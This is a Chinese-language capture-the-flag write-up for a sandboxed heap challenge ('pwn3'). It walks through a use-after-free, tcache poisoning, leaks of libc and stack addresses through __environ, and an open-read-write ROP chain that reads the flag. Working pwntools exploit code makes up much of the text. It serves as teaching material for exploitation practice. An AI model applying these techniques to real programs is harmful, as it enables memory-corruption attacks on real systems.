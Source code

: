 # pwn3  
考查的是orw，即open read write，第一次遇到这种题  
![](./pics/seccomp.png)  
这道题保护全开，还开了沙盒，所以不能用onegadget或system来getshell  
![](./pics/add.png)  
![](./pics/show.png)  
![](./pics/del.png)  
![](./pics/edit.png)  
漏洞在于free后没有清空指针，存在UAF。  
为了得到libcbase需要把freechunk放进unsortedbin，由于存在tcache，需要先把他填充满。  
```
add(0x30,b'./flag\x00')#0
for i in range(7):
    add(0x100,b'./flag\x00')
for i in range(7):
    add(0x50,b'./flag\x00')


add(0x100,b'./flag\x00')#15
add(0x50,b'./flag\x00')#16
add(0x50,b'./flag\x00')#17
for i in range(14):
    free(i+1)
# pause()
show(2)
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(heap_addr))
free(15)
show(15)
main_arena_96=u64(p.recv(6).ljust(8,b'\x00'))
malloc_hook=main_arena_96-0x70
libcbase=malloc_hook-libc.symbols['__malloc_hook']
print('malloc_hook',hex(malloc_hook))
print('libcbase',hex(libcbase))
```
把堆地址和libc都获得到了。  
之后我试了好久的free_hook和malloc_hook劫持，使他运行onegadget，都失败了（这是我第一次见到沙盒题，不知道）  
谷歌后发现libc里有个地方（__environ）会存栈地址，突然好起来了。  
![](./pics/getstack.png)  
```
add(0x30,b'./flag\x00')#18
free(16)
free(17)
edit(14,p64(environ_addr-0x10))
add(0x50,b'./flag\x00')#19
add(0x50,b'./flag\x00')#20
edit(20,b'a'*0xf)
show(20)
p.recvuntil(b'a'*0xf+b'\n')
stack_addr=u64(p.recv(6).ljust(8,b'\x00'))
print("stack_addr",hex(stack_addr))
```
之后我试图通过tcache投毒把ROP链写到rbp下面，然而可能是开chunk时会把栈破坏，这种方法试了好长时间最终还是没成功。  
我又想到栈里不是会有很多程序地址嘛，通过这个方法得到了程序偏移地址，由此也得到了管理chunks地址的地方。  
```
print('stack_before_proaddr',hex(stack_addr-0x220+0x138))
edit(7,p64(stack_addr-0x220+0x138))
add(0x100,b'a'*0xf)#21
add(0x100,b'a'*0xf)#22
show(22)
# print(p.recv())
p.recvuntil(b'a'*0xf+b'\n')
pro_addr=u64(p.recv(6).ljust(8,b'\x00')) #程序本身的地址
print("pro_addr",hex(pro_addr))
pro_offset=pro_addr-0x1a30
print("pro_offset",hex(pro_offset))         
buf_addr=pro_offset+0x4060
add(0x30,b'./flag\x00')#23                 
add(0x10,b'r\x00')#24
free(0)
free(23)
edit(23,p64(buf_addr+0x10))
print('buf_addr+8*25',hex(buf_addr+8*25))
add(0x30,b'flag\x00\x00\x00\x00')#25
print("under_rbp",hex(stack_addr-0x230))
add(0x30,p64(stack_addr-0x230)+p64(environ_addr-0x10))#26 #得到最有用的控制权，任意地址写
```
接下来就可以做到真正意义上的任意地址写了，程序偏移，libc偏移，stack偏移，堆地址偏移我全都得到了，直接构造ORW的ROP链即可。  
```
# open
rop_link = p64(pop_rdi)+p64(heap_addr+0xa50)+p64(pop_rsi)+p64(0)+p64(open_addr)
# read
rop_link+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap_addr+0xb50)+p64(pop_rdx_rcx_rbx)+p64(0x30)*3+p64(read_addr)
# puts
rop_link+= p64(pop_rdi)+p64(heap_addr+0xb50)+p64(puts_addr)
rop_link+= p64(pop_rdi)+p64(heap_addr+0xb50)+p64(puts_addr)
edit(2,rop_link)#这段rop被放在rbp下面
p.interactive()
```
实话实说，结果这个ROP链卡我的时间最久，因为按理rdi要赋值为字符串flag的指针，而我居然赋了个指针的指针却始终没有发现问题，导致open失败（而我竟然一直以为是open也被禁用了）以后一定要杜绝此类现象发生。  


